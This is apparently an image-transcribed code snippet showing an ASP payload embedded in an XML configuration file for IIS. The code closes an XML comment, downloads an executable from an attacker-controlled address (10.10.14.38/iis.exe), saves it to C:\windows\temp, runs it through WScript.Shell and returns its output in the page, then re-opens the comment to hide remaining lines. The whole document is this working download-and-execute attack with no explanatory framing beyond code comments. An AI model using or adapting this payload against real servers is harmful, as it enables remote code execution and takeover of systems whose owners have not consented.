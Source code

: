 ```xml
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' This is the URL of the payload on our box
strFileURL = "http://10.10.14.38/iis.exe"

' This is where we will write the payload to.  C:\Windows\Temp is usually writable by everyone
strHDLocation = "c:\windows\temp\iishelper75x.exe"

' Set up the object that will download the file
Set objXMLHTTP = CreateObject("MSXML2.ServerXMLHTTP.3.0")

' Download the file
objXMLHTTP.Open "GET", strFileURL, False
objXMLHTTP.Send()

' If it worked, then do stuff.
If objXMLHTTP.Status = 200 Then
    ' Create a file object we can write to
    Set objADOStream = CreateObject("ADODB.Stream")
    
    ' Open the file object
    objADOStream.Open
    objADOStream.Type = 1 'adTypeBinary since the file is a binary

    ' Write the response (our payload) to the file object
    objADOStream.Write objXMLHTTP.ResponseBody
    
    ' Set the stream position to the start
    objADOStream.Position = 0

    ' Check to see if the file exists, and if so, try to delete it
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    If objFSO.FileExists(strHDLocation) Then objFSO.DeleteFile strHDLocation
    Set objFSO = Nothing

    ' Write the file to the location specified above
    objADOStream.SaveToFile strHDLocation
    
    ' Close the newly written file
    objADOStream.Close
    Set objADOStream = Nothing
End if

Set objXMLHTTP = Nothing

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute our payload which is at the location defined above
Set cmd1 = wShell1.Exec(strHDLocation)

' Capture any output and write it to the response that is sent back to us
output1 = cmd1.StdOut.Readall()
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
```